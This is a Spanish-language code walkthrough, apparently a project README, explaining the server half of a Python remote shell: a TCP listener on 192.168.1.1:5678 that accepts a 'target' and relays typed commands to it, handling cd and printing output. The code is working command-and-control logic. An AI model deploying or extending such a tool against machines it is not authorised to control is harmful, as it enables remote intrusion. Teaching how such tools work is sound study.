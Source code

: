 
### Análisis del Servidor (`server.py`)
#### Función `shell()`
Esta función maneja la interfaz del lado del servidor. Una de estas interfaces es la de **Recepción del Directorio Inicial** encargado de recibir el directorio inicial del Cliente.
```python
def shell():
    current_dir = target.recv(3000)
```
Luego se ejecuta el **bucle de comandos iterativos**. 
```python
while True:
    command = input(f"{current_dir} -$ ").encode('utf-8')
    if command.decode('utf-8') == 'exit':
        break
```
La función del código anterior, muestra un prompt interactivo con el directorio actual, permitiendo salir con el comando exit.
```python
elif command.decode('utf-8').startswith('cd'):
    target.send(command)
    res = target.recv(3000)
    current_dir = res
```
El código anterior, se encarga del manejo de comandos `cd`.

Finalmente tenemos el **Envío y Recepción de Comandos** encargado de *Envía comandos al cliente, Recibe y muestra los resultados y Maneja casos especiales y errores*
```python
else:
    try:
        target.send(command)
        res = target.recv(3000)
        if res == "1":
            continue
        elif command.decode('utf-8') == "":
            pass
        else: print(res.decode('utf-8'))
    except: 
        print("Error")
        pass
```
#### Función `config()`
```python
def config():
    global server, target, ip, port

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ip = '192.168.1.1'
    port = 5678
    
    server.bind((ip, port))
    server.listen(5)
    print(f"Server listening on {ip}:{port}")
    
    while True:
        target, addr = server.accept()
        print(f"Connected to {addr}")
        break
```
**Funcionalidad:**
- Crea socket servidor TCP
- Vincula a IP y puerto específicos
- Escucha hasta 5 conexiones simultáneas
- Acepta la primera conexión entrante